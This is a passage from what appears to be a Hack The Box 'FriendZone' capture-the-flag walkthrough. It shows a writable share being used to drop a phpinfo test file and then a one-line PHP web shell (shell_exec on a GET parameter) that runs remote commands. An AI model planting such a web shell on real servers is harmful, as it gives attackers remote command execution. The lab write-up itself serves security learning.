 Recall that I was able to write to `Directory`? Let\'s write a small PHP file to prove that we are able to run PHP code.

<div class="filename"><span>info.php</span></div>

```
# echo "<?php phpinfo(); ?>" > info.php
```

In the shares comment, `Files` was shown to be mapped to `/etc/Files`. By extension, `Development` should be mapped to `/etc/Development`.

<a class="image-popup">
![dfab6015.png](/assets/images/posts/friendzone-htb-walkthrough/dfab6015.png)
</a>

Awesome. Now, let\'s step up the game and write another small PHP file, that allows us to execute remote commands.

<div class="filename"><span>cmd.php</span></div>

```
# echo '<?php echo shell_exec($_GET[0]); ?>' > cmd.php
```


[1]: https://www.hackthebox.eu/home/machines/profile/173
[2]: https://www.hackthebox.eu/home/users/profile/17292
[3]: https://www.hackthebox.eu/